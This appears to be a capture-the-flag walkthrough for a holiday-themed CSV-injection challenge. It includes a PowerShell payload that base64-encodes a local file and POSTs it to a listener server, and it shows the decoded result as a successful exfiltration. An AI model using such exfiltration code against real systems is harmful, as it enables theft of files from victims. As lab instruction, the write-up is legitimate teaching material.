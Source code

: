 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Build a server to receive the POSTed file.
2. Test a payload to upload a file.
3. Use scripts/csv_injection Docker-compose project.
4. Start the node server: `docker-compose up nodeserver`
5. Use this payload to test:
```
echo "123123" > content.txt
$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
```

6. Node side, you should receive `MQAyADMAMQAyADMA`; and then
```bash
echo "MQAyADMAMQAyADMA" | base64 -d
123123 <<< You've exfiltrated a file!
```
